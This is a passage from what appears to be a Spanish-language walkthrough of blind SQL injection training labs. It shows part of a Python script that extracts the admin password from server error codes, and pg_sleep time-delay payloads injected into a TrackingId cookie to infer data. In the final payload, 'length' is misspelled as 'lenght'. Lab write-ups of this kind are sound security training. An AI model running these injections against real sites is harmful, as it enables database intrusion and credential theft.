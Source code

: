 ```python
                        r = requests.get(main_url, cookies=cookies)

                        if r.status_code == 500:        #Comparacion con el codifo de estado de la pagina
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

```shell
python3 SQLI_Conditional_Error_PostgreSQL.py
```

Y esto nos daria la contraseña del `admin`, nos registramos y ya estaria listo...

### Lab: Blind SQL injection with time delays

Lo que hay que hacer aqui basicamente es que la web tarde en responder 10 segundos, para ello lo que haremos sera una inyeccion de `mysql` con tiempos de espera (`sleep`), por lo que hariamos lo siguiente...

Antes de nada vemos que se esta trabajando con una base de datos `PostgreSQL` por lo que se utiliza de otra manera para mandar `sleep` aunque eso se puede ir viendo haciendo pruebas cuales funionan y cuales no...

```mysql
'||pg_sleep(10)-- -;
```

Esto hay que ubicarlo donde pone `TrackingId` ya que es la zona inyectable...

Con esto lo que hacemos es que tarde en respondernos la pagina 10 segundos, por lo que ya estaria hecho...

### Lab: Blind SQL injection with time delays and information retrieval

En esta practica lo que hay que hacer es sacar la contraseña del `admin` mediante `sleep` jugando con esas opciones, como si fuera un `true/false`...

```mysql
'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Lo que estamos haciendo aqui es que cuando se cumpla la comparacion `1=1` (Que es siempre) se tardara la pagina en respondernos 10 segundos, pero de lo contrario (`else`) tardara 0 segundos, entendiendo que existe la tabla `users` con el usuario `administrator`, con esto podemos comprobar que todo se cumple correctamente...

```mysql
'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator' and lenght(password)>=20)-- -;
```
